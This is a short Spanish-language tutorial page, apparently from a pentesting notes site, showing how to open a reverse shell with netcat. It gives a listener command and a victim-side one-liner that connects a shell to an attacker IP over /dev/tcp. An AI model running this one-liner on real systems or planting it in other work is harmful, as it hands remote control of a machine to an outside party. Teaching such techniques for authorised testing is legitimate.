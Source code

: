 ```yaml
---
description: >-
  Ejemplo de uso de una reverse shell de mi máquina "atacante" --> "victima" con
  netcat.
---
```


# Uso de netcat

* Primero en la página web https://www.revshells.com/ generaremos la reverse-shell poniendo la IP(ATACANTE) & Puerto:&#x20;



<figure><img src="../../../.gitbook/assets/revshells-web.png" alt=""><figcaption></figcaption></figure>

* Con el comando que nos da en la parte de listener nos pondremos en escucha con netcat por un puerto por ejemplo 7777:

```bash
> nc -lvnp 7777
listening on [any] 7777 ...
```

* Y con la máquina victima pondremos el comando para conectarnos a nuestra máquina de atacante con netcat:

```bash
~$ sh -i >& /dev/tcp/192.168.1.18/7777 0>&1
```

Y veremos que al lanzar el comando anterior nos conectaremos y habremos realizado la reverse-shell: &#x20;

<figure><img src="../../../.gitbook/assets/reverse.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/listiner.png" alt=""><figcaption></figcaption></figure>

